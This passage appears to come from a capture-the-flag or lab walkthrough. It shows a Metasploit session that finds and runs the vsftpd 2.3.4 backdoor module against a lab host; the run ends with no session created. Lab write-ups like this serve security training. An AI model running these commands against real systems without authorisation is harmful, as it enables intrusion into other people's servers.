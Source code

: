 Then we can search for vulnerabilities affecting `vsftpd@2.3.4`:

```
msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
```

We should set the remote host and then run the module:

```
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/usi
                                       ng-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```
